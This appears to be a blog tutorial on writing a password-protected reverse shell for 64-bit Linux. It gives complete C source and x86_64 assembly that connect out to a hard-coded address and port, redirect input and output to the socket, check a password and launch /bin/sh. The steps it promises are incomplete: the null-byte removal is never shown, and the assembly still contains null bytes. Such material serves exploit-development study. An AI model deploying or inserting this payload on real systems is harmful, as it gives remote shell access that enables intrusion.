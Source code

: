 ```yaml
---
title: "Implementing a password protected reverse shell in shellcode"
categories:
  - blog
---
```


The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately connect back to a remote machine and spawn a shell as well as requiring a password before any commands can be run inside the shell.

This blog post will follow a similar process to the bind shell process, but should be a little shorter seeing as a reverse shell is a little easier to implement in C and Assembly and because you should now be a little more familiar with most of the concepts.

We will step through the process again following the same framework:

<ol>
  <li>Firstly, we need to write the code, in the C Programming Language, for creating a socket and then connecting to a remote machine and password protecting it.</li>
  <li>Secondly, the C code needs to be ported to Linux x86_64 Assembly code.</li>
  <li>Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.</li>
</ol>

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<sys/types.h>
#include<netinet/in.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>


int main()
{
        struct sockaddr_in server;
        int sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        // Change arguments as needed
        char *arguments[] = { "/bin/sh", 0, "4444", "127.0.0.1", "YOLOOOOOOO" };
        char buf[16];

        sock = socket(AF_INET, SOCK_STREAM, 0);
      
        server.sin_family = AF_INET;
        server.sin_port = htons(atoi(arguments[2]));
        server.sin_addr.s_addr = inet_addr(arguments[3]);
        bzero(&server.sin_zero, 8);

        connect(sock, (struct sockaddr *)&server, sockaddr_len);

        dup2(sock, 0);
        dup2(sock, 1);
        dup2(sock, 2);

        read(sock, buf, 16);
        buf[strcspn(buf, "\n")] = 0;
        if (strcmp(arguments[4], buf) == 0)
        {        
              execve(arguments[0], &arguments[0], NULL);
        }
       
}
```

```nasm
global _start

section .text

_start:

        ; create socket
        mov rax, 41
        mov rdi, 2
        mov rsi, 1
        mov rdx, 0
        syscall

        mov rdi, rax

        xor rax, rax

        push rax
        ; change IP as reverse hex as needed
        mov dword [rsp-4], 0x7b01a8c0
        mov word [rsp-6], 0x5c11
        mov word [rsp-8], 0x2
        sub rsp, 8


        ;connect(sock, (struct sockaddr *)&server, sockaddr_len)
        
        mov rax, 42
        mov rsi, rsp
        mov rdx, 16
        syscall

        mov rax, 33
        mov rsi, 0
        syscall

        mov rax, 33
        mov rsi, 1
        syscall

        mov rax, 33
        mov rsi, 2
        syscall

        xor rax, rax

        push r10
        mov rsi, rsp
        
        xor rdx, rdx
        mov rdx, 8
        syscall

        xor rax, rax
        ; password '8bytesss'
        mov rax, 0x7373736574796238
        mov rdi, rsi
        scasq
        jne exit

        xor rax, rax
        push rax

        mov rbx, 0x68732f2f6e69622f
        push rbx

        mov rdi, rsp

        push rax

        mov rdx, rsp

        push rdi
        mov rsi, rsp
        mov rax, 59
        syscall

exit:
        xor rax, rax
        mov rax, 60
        syscall
```
<h2></h2>

